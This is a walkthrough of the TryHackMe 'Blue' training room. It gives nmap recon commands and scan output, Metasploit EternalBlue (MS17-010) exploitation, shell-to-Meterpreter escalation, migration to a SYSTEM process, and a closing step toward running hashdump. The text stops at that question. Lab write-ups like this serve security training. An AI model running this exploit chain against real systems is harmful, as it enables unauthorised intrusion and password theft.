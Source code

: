[blue - TryHackMe](https://tryhackme.com/room/blue) | Cya-nyde
==============================================================

## Recon

### How many ports are open with a port number under 1000?

- <code>nmap -p 1-1000 *target ip*</code> to list all open ports under port 1000

```
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

> There are **3** results returned

### What is this machine vulnerable to?

- <code>sudo nmap -sV -script=vuln -T5 -p 135,139,445 *target ip*</code> to run vuln scan on discovered open ports


```
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
MAC Address: 16:FF:CE:C9:65:03 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

```

> The scan shows that the target is vulnerable to **ms17-010**

## Gain Access

- Use `msfconsole` to open *metasploit*

### Find the exploitation code we will run against the machine. What is the full path of the code? 

- `search ms17-010` to list metasploit modules related to this exploit

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```

> The full path to the exploit is **exploit/windows/smb/ms17_010_eternalblue**

### Show options and set the one required value. What is the name of this value?

- `use 0` or `use exploit/windows/smb/ms17_010_eternalblue` to use the eternalblue module
- `show options` to list options

> The only empty option that we need to change is **RHOSTS**

## Escalate

### Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?

- *ctrl + z* to background session after initial foothold on target
- `search type:post shell to meterpreter` to find module to stabilize shell

> The module to use is called **post/multi/manage/shell_to_meterpreter**

### Select this (use MODULE_PATH). Show options, what option are we required to change?

> The option that needs to be set is **SESSION**

- Confirm access level using `getsystem`
   - Should be running as SYSTEM
- List running processes using `ps`
- Migrate to a process with NT AUTHORITY\SYSTEM with `migrate *process id*`

## Cracking

### Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
